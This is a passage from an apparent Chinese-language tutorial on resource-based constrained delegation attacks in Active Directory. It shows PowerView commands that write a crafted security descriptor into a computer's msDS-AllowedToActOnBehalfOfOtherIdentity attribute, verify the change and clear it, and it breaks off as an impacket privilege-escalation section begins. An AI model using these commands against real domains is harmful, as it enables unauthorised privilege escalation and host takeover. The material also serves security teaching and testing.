 ```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-180313546-3823935851-3686928739-1604)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer win7-test| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

[![](assets/1705982146-d02fc5b9199e9ec88c38867c4add72ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223643-55005bb0-b7a1-1.png)  
c、验证是否成功添加

```bash
Get-DomainComputer win7-test -Properties msds-allowedtoactonbehalfofotheridentity
```

[![](assets/1705982146-4a094d1b08d0b1ae49e08f4d05363ed9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223658-5ddcfc7a-b7a1-1.png)  
d、如果想要清除 msds-allowedtoactonbehalfofotheridentity 属性的值，可用如下命令

```bash
Set-DomainObject win7-test -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
```

配置完 msDS-AllowedToActOnBehalfOfOtherIdentity 属性之后就可以通过基于资源的约束委派去攻击目标主机了

#### impacket 提权

Step 1：查看当前权限  